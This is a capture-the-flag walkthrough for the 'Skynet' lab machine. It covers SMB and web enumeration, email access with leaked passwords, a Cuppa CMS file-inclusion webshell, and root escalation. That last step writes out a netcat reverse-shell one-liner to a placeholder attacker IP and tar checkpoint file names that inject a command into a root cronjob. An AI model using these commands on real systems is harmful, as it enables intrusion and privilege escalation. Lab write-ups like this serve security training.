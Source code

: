 # Skynet

### Deploy and compromise the vulnerable machine!

Ran an [nmap scan](./skynet.nmap) and found ssh, http, pop3, imap and SMB ports open.

Enumerated shares and users with [nmap scripts](./skynet-smb-enum.nmap), found 3 shares (anonymous, milesdyson, IPC$) 
and 1 user (milesdyson).

Enumerated http server directories with [gobuster](./skynet.gobuster), found 6 directories (admin, css, js, 
config, ai and squirrelmai). /squirrelmail is an email log in portal, and the remaining 
directories were forbidden.

**What is Miles password for his emails?**

Started by using smbclient to connect to the /anonymous share. Found a txt file and a 
directory containing log files, used smbget to download the contents of the share.

The txt file, attention.txt, stated that: "a system malfunction has caused various passwords 
to be changed. All skynet employees are required to change their password". One of the log 
files contained what looked to be plaintext passwords.

Used the username milesdyson found in the SMB enumeration and a password from the log file 
to log into Miles' email account on the SquirrelMail portal.

**What is the hidden directory?**

In Miles' inbox an email states that the Samba server password was reset after a system 
malfunction and reveals the new password.

Logged into the milesdyson share with the Samba password and milesdyson username.

Found a txt file named important.txt inside a notes folder on the share containing a note 
about a CMS directory on the http server.

**What is the vulnerability called when you can include a remote file for malicious purposes?**

Navigated to the CMS directory and ran another gobuster directory scan and found an 
administrator portal called Cuppa CMS. Looking at the source code gives an indication of the 
version

Found a vulnerability on exploit-db for LFI and RFI, used it to upload a php webshell and 
gain remote code execution.

**What is the user flag?**

Using the webshell found the flag in milesdyson's home directory. The user.txt flag can also
be read through the LFI vulnerability.

**What is the root flag?**

There is a cronjob to backup the files at /var/www/html executing with root privileges and 
using tar with a wildcard. It can be exploited using checkpoints to run a script in that 
directory with root privileges.

Reverse shell script:

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER-IP> <PORT> >/tmp/f" > shell.sh`

Checkpoint files to execute the script:

`touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"`

`touch "/var/www/html/--checkpoint=1"`

Found the root flag in /root.
